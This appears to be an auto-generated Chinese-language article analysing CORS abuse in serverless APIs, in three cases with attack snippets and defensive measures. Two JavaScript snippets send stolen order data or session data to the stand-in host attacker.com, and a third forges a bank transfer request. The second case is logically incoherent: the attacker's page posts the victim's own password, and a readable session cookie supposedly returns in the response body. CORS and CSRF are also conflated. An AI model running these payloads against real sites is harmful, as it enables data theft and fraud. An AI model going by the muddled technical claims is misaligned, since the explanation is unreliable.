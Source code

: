 # 无服务器CORS滥用的案例分析

## 1. 概述

无服务器架构（Serverless Architecture）的兴起为开发者提供了更高效的资源管理和更低的运维成本。然而，这种架构也引入了新的安全挑战，其中之一就是跨域资源共享（Cross-Origin Resource Sharing, CORS）的滥用。CORS是一种允许浏览器跨域请求资源的机制，但在无服务器环境中，由于配置不当或设计缺陷，CORS可能被攻击者滥用，导致敏感数据泄露或服务被恶意利用。

本文将通过分析真实世界中的无服务器CORS滥用案例，深入探讨其原理、攻击手法以及防御措施。

## 2. 原理

CORS滥用的核心在于服务器端对跨域请求的配置不当。在无服务器架构中，开发者通常使用云服务商提供的API网关或函数计算服务来处理HTTP请求。如果这些服务未正确配置CORS策略，攻击者可以通过恶意网站发起跨域请求，获取目标服务器的资源或执行未授权的操作。

具体来说，CORS滥用的常见场景包括：

- **宽松的CORS配置**：服务器允许所有来源（`*`）的跨域请求，或者未对来源进行严格验证。
- **凭证泄露**：服务器在响应中包含了敏感信息（如Cookie、Authorization头），且未限制跨域请求的访问权限。
- **跨域请求伪造（CSRF）**：攻击者利用CORS机制，诱导用户浏览器发起跨域请求，执行未授权的操作。

## 3. 案例分析

### 3.1 案例一：宽松的CORS配置导致数据泄露

**背景**：某电商平台使用无服务器架构处理用户订单查询请求。API网关未正确配置CORS策略，允许所有来源的跨域请求。

**攻击过程**：
1. 攻击者创建了一个恶意网站，并在页面中嵌入以下JavaScript代码：
   ```javascript
   fetch('https://api.example.com/orders', {
       method: 'GET',
       credentials: 'include'
   })
   .then(response => response.json())
   .then(data => {
       // 将获取的订单数据发送到攻击者服务器
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: JSON.stringify(data)
       });
   });
   ```
2. 用户访问恶意网站时，浏览器会自动发起跨域请求，获取用户的订单数据。
3. 由于API网关未对来源进行验证，服务器返回了订单数据，攻击者成功窃取了用户的敏感信息。

**防御措施**：
- 严格限制CORS的来源，仅允许可信的域名访问。
- 使用`Access-Control-Allow-Origin`头指定允许的来源，避免使用通配符`*`。
- 对于敏感操作，要求用户进行身份验证，并验证请求的来源。

### 3.2 案例二：凭证泄露导致账户劫持

**背景**：某社交媒体平台使用无服务器架构处理用户登录请求。API网关在响应中包含了用户的会话Cookie，且未限制跨域请求的访问权限。

**攻击过程**：
1. 攻击者创建了一个恶意网站，并在页面中嵌入以下JavaScript代码：
   ```javascript
   fetch('https://api.example.com/login', {
       method: 'POST',
       credentials: 'include',
       body: JSON.stringify({username: 'victim', password: 'password'})
   })
   .then(response => response.json())
   .then(data => {
       // 将获取的会话Cookie发送到攻击者服务器
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: JSON.stringify(data)
       });
   });
   ```
2. 用户访问恶意网站时，浏览器会自动发起跨域请求，尝试登录用户的社交媒体账户。
3. 由于API网关未对来源进行验证，服务器返回了用户的会话Cookie，攻击者成功劫持了用户的账户。

**防御措施**：
- 避免在响应中包含敏感信息，如会话Cookie。
- 使用`Access-Control-Allow-Credentials`头时，确保仅允许可信的域名访问。
- 对于敏感操作，要求用户进行二次验证，如短信验证码或电子邮件确认。

### 3.3 案例三：跨域请求伪造（CSRF）导致未授权操作

**背景**：某在线银行平台使用无服务器架构处理用户转账请求。API网关未正确配置CORS策略，允许所有来源的跨域请求。

**攻击过程**：
1. 攻击者创建了一个恶意网站，并在页面中嵌入以下JavaScript代码：
   ```javascript
   fetch('https://api.example.com/transfer', {
       method: 'POST',
       credentials: 'include',
       body: JSON.stringify({amount: 1000, toAccount: 'attacker'})
   });
   ```
2. 用户访问恶意网站时，浏览器会自动发起跨域请求，执行转账操作。
3. 由于API网关未对来源进行验证，服务器执行了转账请求，攻击者成功窃取了用户的资金。

**防御措施**：
- 使用CSRF令牌验证请求的合法性，确保请求来自可信的来源。
- 对于敏感操作，要求用户进行二次验证，如短信验证码或电子邮件确认。
- 使用`SameSite`属性限制Cookie的跨域使用，防止CSRF攻击。

## 4. 防御措施总结

针对无服务器CORS滥用漏洞，开发者应采取以下防御措施：

1. **严格配置CORS策略**：仅允许可信的域名访问，避免使用通配符`*`。
2. **验证请求来源**：使用`Access-Control-Allow-Origin`头指定允许的来源，并对请求的来源进行验证。
3. **避免凭证泄露**：避免在响应中包含敏感信息，如会话Cookie，并使用`Access-Control-Allow-Credentials`头时确保仅允许可信的域名访问。
4. **使用CSRF令牌**：对于敏感操作，使用CSRF令牌验证请求的合法性，确保请求来自可信的来源。
5. **二次验证**：对于敏感操作，要求用户进行二次验证，如短信验证码或电子邮件确认。
6. **限制Cookie的跨域使用**：使用`SameSite`属性限制Cookie的跨域使用，防止CSRF攻击。

## 5. 结论

无服务器CORS滥用漏洞是Web安全中的一个重要问题，开发者应高度重视并采取有效的防御措施。通过严格配置CORS策略、验证请求来源、避免凭证泄露、使用CSRF令牌和二次验证等手段，可以有效防止CORS滥用漏洞的发生，保护用户的敏感信息和系统的安全性。

---

*文档生成时间: 2025-03-14 10:51:30*
